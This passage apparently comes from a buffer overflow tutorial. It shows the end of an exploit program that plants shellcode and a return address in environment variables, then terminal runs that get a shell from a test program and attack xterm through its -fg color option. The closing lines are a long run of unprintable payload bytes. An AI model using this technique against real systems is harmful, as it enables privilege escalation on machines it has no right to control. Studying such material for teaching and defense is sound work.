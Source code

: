   for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';
  egg[eggsize - 1] = '\0';

  memcpy(egg,"EGG=",4);
  putenv(egg);
  memcpy(buff,"RET=",4);
  putenv(buff);
  system("/bin/bash");
}
------------------------------------------------------------------------------

   Lets try our new exploit with our vulnerable test program:

------------------------------------------------------------------------------
[aleph1]$ ./exploit4 768
Using address: 0xbffffdb0
[aleph1]$ ./vulnerable $RET
$
------------------------------------------------------------------------------

   Works like a charm. Now lets try it on xterm:

------------------------------------------------------------------------------
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit4 2148
Using address: 0xbffffdb0
[aleph1]$ /usr/X11R6/bin/xterm -fg $RET
Warning: Color name
"��������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������








���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������








���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������







